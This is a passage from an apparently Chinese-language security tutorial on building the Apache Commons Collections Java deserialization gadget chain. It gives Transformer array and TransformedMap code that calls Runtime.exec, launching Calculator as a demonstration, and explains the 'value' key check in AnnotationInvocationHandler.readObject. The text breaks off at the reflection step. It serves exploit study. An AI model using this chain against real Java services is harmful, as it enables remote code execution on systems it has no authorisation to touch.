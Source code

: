 目前网上构造Transformer数组的方法采用getMethod方法获取getRuntime方法，自己在编写利用时有个疑惑为什么不直接invoke调用getRuntime方法，这样岂不是更加简单方便，试验如下

```
Transformer[] transformers = new Transformer[]`{`
new ConstantTransformer(Runtime.getRuntime()),
new InvokerTransformer("getRuntime", null, null),
new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"/System/Applications/Calculator.app/Contents/MacOS/Calculator"`}`)
`}`;
Transformer chainedTransformer = new ChainedTransformer(transformers);
```

Transformer第一个元素会原状态返回，**如果ConstantTransformer参数设置的是Runtime.class 在第二个元素执行transform函数的时候就会抛异常**，原因是InvokerTransformer会获取transform函数参数的类并调用getMethod函数，如果是Runtime.class ，它的getClass方法获取的是Object类，这时再搜索getRuntime方法时就会抛出异常，因此这里只能用Runtime对象当做链的第一个参数，但是问题又来了。

新的问题是在代码里编写调用transform触发函数是可以的，但是一旦反序列化该链就会报错，**因为 Runtime没有实现Serializable接口**，所以这个想法就被彻底否掉了。最后还是采用以下写法

```
Transformer[] transformers = new Transformer[]`{`
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] `{` String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`),
new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`),
new InvokerTransformer("getRuntime", null, null),
new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"/System/Applications/Calculator.app/Contents/MacOS/Calculator"`}`)
`}`;
```

这样做的好处是，在生成链的全程new的对象都实现了Serializable接口，这意味他们都可以序列化。

**<a class="reference-link" name="3.%20%E5%B0%86%E6%95%B0%E7%BB%84%E6%94%BE%E5%85%A5TransformedMap"></a>3. 将数组放入TransformedMap**

```
Transformer chainedTransformer = new ChainedTransformer(transformers);
Map inMap = new HashMap();
inMap.put("value", "aa");
Map outMap = TransformedMap.decorate(inMap, null, chainedTransformer);
```

这里有个坑如果inMap put 的key名必须是value，相关代码在AnnotationInvocationHandler readObject方法中有所体现

[![](https://p4.ssl.qhimg.com/t01ed326c4ec9aee93b.png)](https://p4.ssl.qhimg.com/t01ed326c4ec9aee93b.png)

[![](https://p0.ssl.qhimg.com/t011a227b8749337fd6.png)](https://p0.ssl.qhimg.com/t011a227b8749337fd6.png)

从代码中很明显的看出在var3中get了value，所以如果var5的key不是value的话，在358行的if就不能就去，也就不能执行位于里面的触发链函数。

**<a class="reference-link" name="4.%20%E5%8F%8D%E5%B0%84%E8%8E%B7%E5%8F%96AnnotationInvocationHandler%E5%AF%B9%E8%B1%A1"></a>4. 反射获取AnnotationInvocationHandler对象**

